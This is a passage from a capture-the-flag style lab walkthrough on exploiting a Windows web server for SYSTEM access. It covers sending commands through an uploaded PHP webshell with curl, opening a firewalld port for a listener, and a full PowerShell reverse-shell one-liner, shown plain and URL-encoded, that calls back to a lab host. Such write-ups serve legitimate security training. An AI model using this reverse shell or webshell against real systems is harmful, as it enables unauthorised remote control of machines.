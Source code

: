 # Exploitation

Now that we have our exploit modified in the way we need, it is ready to launch against our target

We can launch our exploit by doing **./43777.py** and it works, giving us access to NT AUTHORITY\SYSTEM which is the highest possible local account on a Windows target

![webserverexploitlaunch.png](../../../../_resources/webserverexploitlaunch.png)

Now that we have remote code execution on the target machine, we can use curl to run commands on the system. Using the following command will do this: **curl -X POST http://10.200.196.150/web/exploit-gnome787.php -d "a=COMMAND"**

![systeminfo.png](../../../../_resources/systeminfo.png)

Now we want to generate a reverse shell that we can use to further enumerate the system and gain further access to the network. Using our exploit we can try and send a ping request back to our attacking machine, however, when we do this we can't seem to capture the request which means we are going to have to try something else to be able to capture our reverse shell

Given that we already have a machine that can recieve ping requests (**10.200.196.200**) we could send a reverse shell back to this machine. This will require a static binary of [netcat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat) which we can upload via our ssh connection

![ncatlistener.png](../../../../_resources/ncatlistener.png)

Note: We will also need to open up the port in the firewall. CentOS uses an always-on wrapper around the IPTables firewall called "firewalld". This firewall is very restrictive by default and only allows access to SSH and anything else the sysadmin has specified. To open our desired port we can run the following command: **firewall-cmd --zone=public --add-port 44444/tcp**. The command uses two different switches. One being the **--zone** which we set to public meaning the rule will apply to all inbound connections to this port. Next we use the **--add-port** switch and set it to our desired port, in our case this will be **44444**, and we specify that it will the TCP protocol we will be opening this port with

![openingportonfirewall.png](../../../../_resources/openingportonfirewall.png)

Now that we have our listener and our listener port open, we can use the following payload that uses powershell to create a reverse shell: 

```powershell
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.196.200',44444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

I am going to use curl to generate the reverse shell but before I can do this I must encode the reverse shell code. This can be done with the an online tool such as [urlencoder](https://www.urlencoder.org/) and then add that encoded payload to our curl command that makes use of that exploit we uploaded earlier. Our encoded payload looks like:

```powershell
powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.196.200%27%2C44444%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

We send our payload using our curl exploit: **curl -X POST http://10.200.196.150/web/exploit-gnome787.php -d "a=PAYLOADHERE"**

![revshellpayloadcurlexploit.png](../../../../_resources/revshellpayloadcurlexploit.png)

And now we have a reverse shell to **10.200.196.150** on our **.200** host:

![revshellgenerated.png](../../../../_resources/revshellgenerated.png)







